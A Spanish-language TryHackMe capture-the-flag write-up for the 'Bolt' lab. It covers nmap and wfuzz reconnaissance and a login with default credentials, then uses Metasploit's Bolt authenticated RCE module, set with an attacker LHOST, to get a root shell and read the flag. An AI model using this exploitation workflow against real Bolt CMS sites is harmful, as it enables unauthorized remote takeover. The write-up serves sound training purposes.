

# Bolt - TryHackMe

## Reconocimiento

Hagamos un escaneo con nmap

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.130.135.174 -oG allPorts

PORT     STATE SERVICE  REASON
22/tcp   open  ssh      syn-ack ttl 62
80/tcp   open  http     syn-ack ttl 62
8000/tcp open  http-alt syn-ack ttl 62
```

Veamos más a fondo los puertos abiertos

```bash
nmap -sCV -p22,80,8000 10.130.135.174

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:85:ec:54:f2:01:b1:94:40:de:42:e8:21:97:20:80 (RSA)
|   256 77:c7:c1:ae:31:41:21:e4:93:0e:9a:dd:0b:29:e1:ff (ECDSA)
|_  256 07:05:43:46:9d:b2:3e:f0:4d:69:67:e4:91:d3:d3:7f (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
8000/tcp open  http    (PHP 7.2.32-1)
|_http-generator: Bolt
|_http-title: Bolt | A hero is unleashed
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 Not Found
|     Date: Tue, 21 Jul 2026 22:18:48 GMT
|     Connection: close
|     X-Powered-By: PHP/7.2.32-1+ubuntu18.04.1+deb.sury.org+1
|     Cache-Control: private, must-revalidate
|     Date: Tue, 21 Jul 2026 22:18:48 GMT
|     Content-Type: text/html; charset=UTF-8
|     pragma: no-cache
|     expires: -1
|     X-Debug-Token: b2987a
|     <!doctype html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Bolt | A hero is unleashed</title>
|     <link href="https://fonts.googleapis.com/css?family=Bitter|Roboto:400,400i,700" rel="stylesheet">
|     <link rel="stylesheet" href="/theme/base-2018/css/bulma.css?8ca0842ebb">
|     <link rel="stylesheet" href="/theme/base-2018/css/theme.css?6cb66bfe9f">
|     <meta name="generator" content="Bolt">
|     </head>
|     <body>
|     href="#main-content" class="vis
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Date: Tue, 21 Jul 2026 22:18:48 GMT
|     Connection: close
|     X-Powered-By: PHP/7.2.32-1+ubuntu18.04.1+deb.sury.org+1
|     Cache-Control: public, s-maxage=600
|     Date: Tue, 21 Jul 2026 22:18:48 GMT
|     Content-Type: text/html; charset=UTF-8
|     X-Debug-Token: 81fb05
|     <!doctype html>
|     <html lang="en-GB">
|     <head>
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Bolt | A hero is unleashed</title>
|     <link href="https://fonts.googleapis.com/css?family=Bitter|Roboto:400,400i,700" rel="stylesheet">
|     <link rel="stylesheet" href="/theme/base-2018/css/bulma.css?8ca0842ebb">
|     <link rel="stylesheet" href="/theme/base-2018/css/theme.css?6cb66bfe9f">
|     <meta name="generator" content="Bolt">
|     <link rel="canonical" href="http://0.0.0.0:8000/">
|     </head>
|_    <body class="front">
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
```

Al entrar en http://10.130.135.174:8000/ vemos esto:



Vamos a hacer una enumaración de directorios con wfuzz

```bash
wfuzz -t 200 -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt --hc 400,404,301 --hl 10 -u "http://10.130.135.174/FUZZ"

# No encontramos gran cosa
```

Buscamos en internet y encontramos una ruta que nos da acceso a un login:

http://10.130.135.174:8000/bolt

Nos lleva al login y entramos con las credenciales que estan en la propia página de bolt: `bolt:boltadmin123`, estas las encontramos en mensajes de un foro de la pagina.

Vemos la versión 3.7.1 y buscamos en exploits-db y encontramos un exploit para esta versión, para la 3.7.0 pero nos sirve.

Usaremos metasploit para explotarlo,

```bash
use exploit/unix/webapp/bolt_authenticated_rce

[msf](Jobs:0 Agents:0) exploit(unix/webapp/bolt_authenticated_rce) >> set LHOST 192.168.154.96
LHOST => 192.168.154.96
[msf](Jobs:0 Agents:0) exploit(unix/webapp/bolt_authenticated_rce) >> set RHOSTS 10.130.135.174
RHOSTS => 10.130.135.174
[msf](Jobs:0 Agents:0) exploit(unix/webapp/bolt_authenticated_rce) >> set USERNAME bolt
USERNAME => bolt
[msf](Jobs:0 Agents:0) exploit(unix/webapp/bolt_authenticated_rce) >> set PASSWORD boltadmin123
PASSWORD => boltadmin123
[msf](Jobs:0 Agents:0) exploit(unix/webapp/bolt_authenticated_rce) >> check
[+] Reverted user profile back to original state.
[+] 10.130.135.174:8000 - The target is vulnerable. Successfully changed the /bolt/profile username to PHP $_GET variable "jcntx".
[msf](Jobs:0 Agents:0) exploit(unix/webapp/bolt_authenticated_rce) >> exploit

whoami
root

cd /home

ls
bolt
composer-setup.php
flag.txt
```

Vemos la flag y completamos el reto.